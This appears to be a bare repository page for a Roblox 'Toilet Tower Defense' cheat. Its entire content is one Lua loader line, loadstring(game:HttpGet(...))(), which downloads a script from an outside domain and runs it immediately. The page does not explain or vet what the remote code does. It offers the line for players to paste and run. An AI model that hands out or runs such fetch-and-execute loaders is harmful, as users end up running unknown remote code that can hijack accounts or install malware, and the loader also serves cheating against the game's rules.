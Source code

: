 # Toilet-Tower-Defense-
loadstring(game:HttpGet("https://egorikusa.space/e39101912e59f0ada550cb7b.lua", true))()
